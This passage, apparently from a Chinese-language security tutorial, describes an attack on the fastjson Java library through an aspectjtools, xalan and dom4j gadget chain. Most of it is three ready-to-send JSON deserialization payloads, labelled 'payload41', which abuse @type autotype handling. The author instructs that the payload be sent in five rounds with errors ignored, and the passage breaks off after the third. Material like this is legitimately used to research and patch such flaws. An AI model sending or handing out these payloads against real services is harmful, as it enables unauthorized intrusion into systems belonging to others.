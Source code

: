 [![](assets/1706959415-194cc361b684719c96ff7376e6a6dbb6.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231020223341147.png)

`yakit`真是太好用了，有木有~

### 4.1.2 aspectjtools+xalan（>=2.4.0）+dom4j（版本无限制）

#### 4.1.2.1 直接回显法

分五次打，中间报错不用管。

`payload41`（组合拳）：

```plain
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}},{"username":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"test"},"password":"admin"}]
```

```plain
{"@type":"java.lang.Exception","@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{}}
```

```plain
{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{}}}}
```
